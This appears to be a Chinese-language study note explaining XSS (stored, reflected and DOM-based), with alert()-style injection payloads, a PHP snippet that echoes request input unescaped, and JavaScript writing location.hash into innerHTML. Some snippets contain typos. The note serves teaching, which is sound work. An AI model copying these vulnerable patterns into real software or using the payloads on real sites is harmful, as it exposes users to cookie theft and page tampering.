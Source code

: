 ```yaml
---
title: 2-2-1_xss
date: 2018-05-28 18:55:49
tags:
---
```


### XSS

#### 什么说XSS
全称: Cross Site Script
中文: 跨站脚本
用途: 盗取用户信息，串改页面实现钓鱼，制造蠕虫等。

概念: 通过 HTML注入串改页面，插入恶意脚本，当用户浏览网页时，实现控制用户浏览器行为的一种攻击方式。

#### 原理

用xss盗取cookie来控制用户权限。

- 存储型
    - 特点：内容说存储在数据库中
    - 随意访问网页时候被触发。如逛论坛时候被触发。渗透测试一般用alert来显示。黑客则直接提权。
    - 可用firebug插件进行查看。
    - eg: `<img src="#" onerror="alert("error")"> `

- 放射型
    - 要求用户主动访问携带xss脚本的链接，触发xss。如邮件或者聊天工具发送xss链接等。

前端代码
```
url: great.php?name=<img src=@ onerror=alert(/xss/)>
html:
<img src="@" onerror="alert(/xss/)">

```
后端代码
```
<?php
header("content-type:text/html;charset=utf-8");
if( isset($_REQUEST["name"] ){
    $name = $_REQUEST["name"];
}else{
    $name = "";
}
echo "welcome",$name;
```



- DOM型
需要用户主动点击访问带xss脚本的链接代码，触发xss



前端代码
```
# 注意，不在url参数中，而是在hash中
url:  localhost:8888/demo/admin/login.html?#Fail.<img src=# onerror=(/xss/)>
html: <span id="xsss"> Fail.<img src="@" onerror="alert(/xss/)">
```
原理代码
```
<script>
var errorMsg = location.hash.substring(1);
document.getElementById("xsss").innerHTML=decodeURIComponnent(errorMsg);
</script>
```

#### 案例

**存储型xss**
```
hello <src="#" onerror="alert(/xss/)">
```

**放射型xss**

正常流程
```
url: http://localhost:8080/great.php?name=test
返回: welcome test
```

植入xss
```
url: http://localhost:8080/great.php/name=test<img src=a onerror=alert(/xss/)>
html:  welcome test<img src=a onerror=alert(/xss/)>
```


**DOM型xss**

```
登陆失败后url返回hash  #Fail.
url: localhost:8080/login.html?#Fail.
```
修改hash，后请按地址栏刷新按钮
```
url: localhost:8080/login.html?#Fail.<img src=a onerror=alert(/xss/)>
```
原理代码
```
<script>
var errorMsg = location.hash.substring(1);
document.getElementById("xsss").innerHTML=decodeURIComponnent(errorMsg);
</script>
```
### 总结

|xss类型|存储型|放射型 | DOM型|
|--|--|--|--|
|数据存储| 数据库| URL | URL|
| 触发过程|1.黑客构造xss脚本 2- 用户访问污染页面| 正常用户访问xss脚本url | 正常用户访问xss脚本url |
|输出主体| 后端web应用程序 | 后端web应用程序 | 前端Javascript| 
|输出位置| HTTP响应中 |HTTP响应中| 动态构造的DOM节点|
